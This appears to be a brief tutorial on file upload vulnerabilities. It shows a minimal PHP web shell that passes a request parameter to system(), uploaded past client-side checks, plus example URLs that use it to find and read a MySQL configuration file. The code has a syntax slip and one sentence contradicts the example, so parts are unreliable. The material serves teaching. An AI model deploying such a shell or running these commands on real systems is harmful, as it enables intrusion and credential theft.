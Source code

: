 # File upload vulnerabilities

In the example scenario Mal, the hacker, finds out that a profile picture file is checked via JavaScript on the client-side. He writes a PHP script and uploads it as his profile image by disabling JavaScript in his browser.

His file URL is not executable by the server:
```php
<?php
	if(isset($_REQUEST['cmd'])) {
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
	} else {
		echo 'Hello There!'
	}
?>
```

`facebook.com/1a32D/hack.php?cmd=locate my.cnf`
`facebook.com/1a32D/hack.php?cmd=cat /etc/mysql/my.cnf`
